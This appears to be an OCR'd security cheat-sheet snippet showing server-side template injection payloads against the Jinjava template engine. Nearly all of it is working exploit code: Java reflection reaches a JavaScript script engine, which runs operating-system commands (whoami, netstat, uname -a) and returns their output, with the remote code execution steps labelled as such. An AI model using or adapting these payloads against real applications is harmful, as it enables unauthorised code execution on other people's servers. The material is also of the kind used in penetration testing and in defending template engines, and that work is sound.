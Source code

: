 ​

//It was also possible to call methods on the created object by combining the

​

​

​

​

​

​

​

{% %} and {{ }} blocks

{% set ji='a'.getClass().forName('com.hubspot.jinjava.Jinjava').newInstance().newInterpreter() %}

​

​

{{ji.render('{{1*2}}')}}

//Here, I created a variable 'ji' with new instance of com.hubspot.jinjava.Jinjava class and obtained reference to the newInterpreter method. In the next block, I called the render method on 'ji' with expression {{1*2}}.

​

//{{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval(\"new java.lang.String('xxx')\")}}

//output: xxx

​

//RCE

{{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval(\"var x=new java.lang.ProcessBuilder; x.command(\\\"whoami\\\"); x.start()\")}}

//output: java.lang.UNIXProcess@1e5f456e

​

//RCE with org.apache.commons.io.IOUtils.

{{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval(\"var x=new java.lang.ProcessBuilder; x.command(\\\"netstat\\\"); org.apache.commons.io.IOUtils.toString(x.start().getInputStream())\")}}

//output: netstat execution

​

//Multiple arguments to the commands

Payload: {{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval(\"var x=new java.lang.ProcessBuilder; x.command(\\\"uname\\\",\\\"-a\\\"); org.apache.commons.io.IOUtils.toString(x.start().getInputStream())\")}}
